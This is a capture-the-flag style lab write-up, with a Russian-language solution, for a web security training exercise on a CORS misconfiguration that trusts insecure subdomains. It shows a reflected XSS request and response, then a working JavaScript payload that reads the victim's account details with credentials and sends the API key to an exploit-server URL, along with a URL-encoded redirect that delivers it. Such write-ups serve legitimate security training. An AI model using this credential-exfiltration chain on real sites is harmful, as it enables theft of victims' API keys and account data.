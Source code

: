 # CORS vulnerability with trusted insecure protocols
PRACTITIONER

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

## Решение
Функционал "Check stock" содержит уязвимость Reflected XSS. Значение параметра productId в случае отображается в ответе на запрос: 
```
GET /?productId=<script></script>&storeId=1' HTTP/1.1
Host: stock.0ac700530306b840824d60ff00f20043.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```
```
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=ckkE2GGcBnF8OXPvYtjasUBkLHKmCE7j; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 51

<h4>ERROR</h4>Invalid product ID: <script></script>
```
Подготавливаю скрипт для отправки ключа на эксплойт-сервер:
```
<script>
    fetch('https://0ac700530306b840824d60ff00f20043.web-security-academy.net/accountDetails', {
        credentials:'include'
    })
        .then(r => r.json())
        .then(j => {
            fetch(`https://exploit-0acb009d03aeb81a82b55f3c0133002e.exploit-server.net/log?x=${j.apikey}`)
        })
</script>
```
Пропускаю его через URL-кодирование и передаю в качестве значения параметра productId в запросе к поддомену stock.0ac700530306b840824d60ff00f20043.web-security-academy.net.

Полученный URL использую в качестве конечного адреса клиентского перенаправления через изменение document.location:
```
<script>
document.location='http://stock.0ac700530306b840824d60ff00f20043.web-security-academy.net/?productId=%3Cscript%3E%0A%20%20%20%20fetch(%27https%3a%2f%2f0ac700530306b840824d60ff00f20043.web-security-academy.net%2faccountDetails%27%2c%20{%0A%20%20%20%20%20%20%20%20credentials%3a%27include%27%0A%20%20%20%20})%0A%20%20%20%20%20%20%20%20.then(r%20%3d%3E%20r.json())%0A%20%20%20%20%20%20%20%20.then(j%20%3d%3E%20{%0A%20%20%20%20%20%20%20%20%20%20%20%20fetch(`https%3a%2f%2fexploit-0acb009d03aeb81a82b55f3c0133002e.exploit-server.net%2flog%3fx%3d%24{j.apikey}`)%0A%20%20%20%20%20%20%20%20})%0A%3C%2fscript%3E&storeId=1%27'
</script>
```
Deliver exploit to victim -> Access log. В логах будет ключ. Остаётся отправить его на проверку через "Submit solution". Задание выполнено.
